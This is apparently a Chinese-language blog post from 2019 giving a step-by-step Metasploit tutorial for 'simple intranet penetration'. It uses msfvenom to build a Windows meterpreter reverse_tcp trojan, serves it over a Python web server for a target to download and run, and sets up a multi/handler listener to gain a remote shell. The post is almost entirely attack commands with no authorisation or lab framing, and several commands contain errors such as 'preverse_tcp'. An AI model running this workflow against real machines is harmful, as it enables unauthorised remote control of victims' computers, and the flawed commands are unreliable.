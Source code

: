 ```yaml
---
layout:     post
title:      MSF 简单内网渗透
subtitle:   linux下利用Metasploit做一个简单的内网渗透
date:       2019-3-18
author:     cjw
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 正所谓前人栽树，后人乘凉。

# 前言
## 1.kali 终端运行 msfconsole

### 命令：msfconsole

![](https://s2.ax1x.com/2019/03/18/AniMtg.png)

### 出现如上界面说明启动成功。

## 2.用MSF下的msfvenom来生成木马程序到根目录。

### 命令：msfvenom -p /windows/meterpreter/reverse_tcp lhost=“这里写你的本机ip” lport=“这里写你的端口，注意！不要和已经开启的端口冲突。” -f exe >/muma.exe

![](https://s2.ax1x.com/2019/03/18/AnknJg.png)

## 3.再打开一个终端窗口开启一个简易web服务器。

### 命令：python SimpleHTTPServer 8080

![](https://s2.ax1x.com/2019/03/18/AnkGwV.png)

##　4.用目标机的浏览器访问下载木马程序。点击木马文件下载。

![](https://s2.ax1x.com/2019/03/18/AnkWSH.png)

## 5.加载 exp。

### 命令：use  exploit/multi/handler

![](https://s2.ax1x.com/2019/03/18/AnA534.png)

## 6.设置我们的payload。

### 命令：set /windows/meterpreter/preverse_tcp

set lhost “本机ip”

set lport “你刚才的端口”。

## 7.查看我们的设置。

### 命令：show options

![](https://s2.ax1x.com/2019/03/18/AnE35T.png)

## 8.开启监听。

### 命令：run

![](https://s2.ax1x.com/2019/03/18/AnEarR.png)

## 9.目标机器下载并点击我们的木马文件。

### ![](https://s2.ax1x.com/2019/03/18/AnZmBn.png)

## 10.得到meterpreter，shell到目标的终端。

### 命令：shell

![](https://s2.ax1x.com/2019/03/18/AnZB9O.png)

#11.完成。
